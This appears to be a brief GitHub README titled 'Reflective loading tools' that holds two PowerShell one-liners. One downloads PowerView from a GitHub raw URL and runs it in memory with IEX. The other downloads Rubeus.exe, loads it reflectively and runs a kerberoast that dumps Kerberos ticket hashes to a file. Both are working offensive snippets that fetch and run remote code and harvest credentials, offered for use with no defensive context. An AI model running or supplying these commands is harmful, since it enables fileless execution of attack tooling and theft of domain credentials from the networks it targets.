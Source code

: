 # Reflective loading tools

PowerView
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerView.ps1') | IEX
```

Rubeus
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('https://raw.githubusercontent.com/wez3/reflective-loading/main/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```
